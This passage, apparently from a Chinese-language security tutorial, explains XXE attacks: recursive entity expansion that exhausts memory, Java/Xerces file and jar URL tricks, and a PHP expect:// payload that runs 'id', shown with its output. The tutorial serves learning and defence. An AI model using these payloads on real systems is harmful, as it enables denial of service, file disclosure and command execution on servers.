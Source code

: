 回忆一下解析过程，当XML处理器载入这个文档的时候，它会包含根元素，而里面定义了实体&lol9 ，而19实体扩展成了包含了`“&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;”`这个字符串。

如此递归上去，压入内存的东西呈指数增长，实验发现，一个小于1KB的XML攻击payload能消耗3GB的内存。

### 特定环境下的攻击和限制

#### Java&Xerces

默认的Oracle's Java Runtime Environment下的XML parser是Xerces，一个apache的项目。而Xerces和Java提供了一系列的特性，这些特性又能导致一些严重的安全问题。上述的那些攻击手法（DOCTYPEs for SSRF,文件读取,参数实体的外带数据）在java的默认配置下能够运用自如,java/Xerces也支持XInclude 但是需要setXIncludeAware(true) 和setNamespaceAware(true)。

java规范能够支持如下的URL机制

```
http
https
ftp
file
jar

```

令人吃惊的是Java的file协议能够用来列目录，比如说，在linux下面“file:///”会列出/目录下所有东西：

```
bin
boot
dev
etc
home
...

```

jar协议`jar:http://host/application.jar!/file/within/the/zip`会导致服务器首先取得文件然后解压这个以jar开头！结尾的包 并提取后面的文件。从攻击者的角度看，完全能够定制一些高压缩比的包（比如1000：1）这些ZIP炸弹能用来攻击反病毒系统，或者用来消耗目标机的硬盘/内存资源。注意，jar URLs能在任何接受DOCTYPE定义的JAVA Xerces系统上使用。`所以，即使外部实体关闭了，还是能够进行攻击`。

#### php&expect的RCE

很遗憾，这个扩展并不是默认安装的，然而安装了这个扩展的XXE漏洞，是能够执行任意命令。

```
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>

```

那么就会返回如下

```
<file>uid=501(Apple) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),401(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),399(com.apple.access_ssh)<file>

```

